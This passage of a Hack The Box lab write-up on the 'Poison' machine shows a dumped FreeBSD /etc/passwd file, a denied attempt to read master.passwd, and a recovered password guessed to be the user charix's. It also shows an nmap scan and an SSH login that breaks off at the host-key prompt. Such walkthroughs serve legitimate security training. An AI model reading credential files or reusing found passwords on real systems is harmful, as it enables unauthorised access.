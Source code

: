 ```
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin 
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin 
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin 
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin 
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico 
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin 
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin 
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin 
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin 
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin 
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin 
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin 
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin 
cups:*:193:193:Cups 
Owner:/nonexistent:/usr/sbin/nologin 
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Unfortunately, there was no password hash in `/etc/passwd`. So I tried to view the master password file (freebsd's equivalent of `/etc/shadow`). However, I got permission denied. So, this method was not the right one to get the password.

![](hackthebox_machines_Poison_master.passwd_perm_denied.png) 

### Owned user

Since there is no way to verify what the password `Charix!2#4%6&8(0` is for, I had to guess. It looks like its for the user `charix`. And I happened to realise that ssh port was open. So, I tried to ssh in.
```
➜  ~ nmap -Pn   10.10.10.84
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-07 13:09 +08
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 69.87% done; ETC: 13:10 (0:00:13 remaining)
Stats: 0:00:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.85% done; ETC: 13:10 (0:00:05 remaining)
Nmap scan report for 10.10.10.84
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 58.19 seconds
➜  ~
```
```
➜  Poison git:(master) ✗ ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.

```